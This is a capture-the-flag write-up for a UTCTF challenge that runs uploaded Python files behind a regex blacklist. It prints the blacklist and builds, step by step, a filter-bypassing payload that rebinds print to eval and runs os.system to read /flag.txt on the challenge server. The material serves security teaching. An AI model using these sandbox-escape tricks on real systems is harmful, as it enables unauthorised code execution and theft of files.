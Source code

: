 # Python Shell

## Task

Upload a Python file that can be run by invoking the python command, and we
will run it for you. To do so, send the bytes over the stream, and close the
write half. stdout will be sent back. For security reasons, we may refuse to
run your file if we detect dangerous strings. There is a byte limit and a
timeout.

nc misc.utctf.live 4353

## Solution

First you hat to create a connection and halfclose it. This is best done with
`socat -t1 - TCP:misc.utctf.live:4353`.

So now to the payload. A simple `print('xxx')` returns xxx so far so good.

But if we just try to: `print(open('/flag.txt').read())` we get:

```  
Files must be uploaded within 2 seconds. Scripts must run within 2 seconds.
Only the first 4096 bytes will be considered.  
Blacklist:
(eval)|(import)|(open)|(with)|(as)|(from)|(lambda)|(\s*print\s*=\s*)|(?P<paren>\()  
Whitelist: (\s*print\s*(?P<paren>\())  
```

So we know what is prohibited: `eval|import|open|with|as|from|lambda|print =
|` and what is that?  
`(` open parentheses... ok thats "new"...

So to get around the forbidden `open` we could do something like:  `eval('op'
+ 'en'('flag.txt'))` but eval is forbidden as well.

A simple `__builtins__.__dict__['ev' + 'al']` will solve that, so now to the
`(`.

Since it is a string it can be replaced with `int.__doc__[3]`.

`__builtins__.__dict__['ev' + 'al']`('print' + int.__doc__[3] + 'op' + 'en' +
int.__doc__[3] + '\'/flag.txt\')' + '.read' + int.__doc__[3] + '))')`

So maybe something like that? But wait there is still a `(` at char(40) damn!

How to get rid of that? I didn't find a way to get rid of it directly, but
there was mention of a "whitelist" before. `Whitelist:
(\s*print\s*(?P<paren>\())`  
For `print(` the `(` is ok, good to know!

Let's try

`p = 'print' + int.__doc__[3] + 'op' + 'en' + int.__doc__[3] +
'\'/flag.txt\')' + '.read' + int.__doc__[3] + '))';
__builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p +
"")`

No answer... debugging it locally gave me the flag via stderr while throwing
an exception, but the server only forwards stdout.

So I changed the `open('/flag.txt').read()` part to `os.system('cat
/flag.txt')`

Resulting in: `p = '__builtins__.__i' + 'mport__' + int.__doc__[3] +
'"os").system' + int.__doc__[3] + '"cat /flag.txt")';
__builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al'];
print(p)"` as the final payload.

```  
echo "p = '__builtins__.__i' + 'mport__' + int.__doc__[3] + '"os").system' +
int.__doc__[3] + '"cat /flag.txt")'; __builtins__.__dict__['print'] =
__builtins__.__dict__['ev' + 'al']; print(p)" > payload`  
cat payload | socat -t1 - TCP:misc.utctf.live:4353  
Files must be uploaded within 2 seconds. Scripts must run within 2 seconds.
Only the first 4096 bytes will be considered.  
utflag{unclean_input}  
```  

Original writeup
(https://github.com/0x01DA/writeups/blob/master/utctf/Python%20Shell/README.md).